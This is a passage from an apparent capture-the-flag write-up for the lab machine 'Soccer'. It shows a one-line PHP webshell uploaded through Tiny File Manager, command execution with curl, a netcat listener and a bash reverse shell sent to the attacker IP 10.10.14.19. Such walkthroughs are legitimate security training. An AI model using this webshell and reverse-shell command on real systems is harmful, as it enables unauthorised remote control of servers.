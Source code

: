 Contents of the file folder showing tinyfilemanager.php and the uploads folder.

### Shell

I craft a simple PHP webshell and save it as `cmd.php` on my local machine.

```php
<?php system($_REQUEST["cmd"]); ?>
```

Via the upload button, I can drop my reverse shell onto the server.

![Untitled](./images/Untitled7.png)

Combining this with `curl` I can now execute commands on the system:

```bash
$ curl http://soccer.htb/tiny/uploads/cmd.php -d 'cmd=id'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Starting a listener on my local machine on port `8888` with netcat with `nc -lnvp 8888` and triggering the reverse shell by sending a bash reverse shell to the webserver with curl.

```bash
curl http://soccer.htb/tiny/uploads/cmd.php \
	--data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.19/8888 0>&1'" -i
```

> Note the use `--data-urlencode` parameter in this instance. This is important otherwise, the payload won’t be encoded correctly.
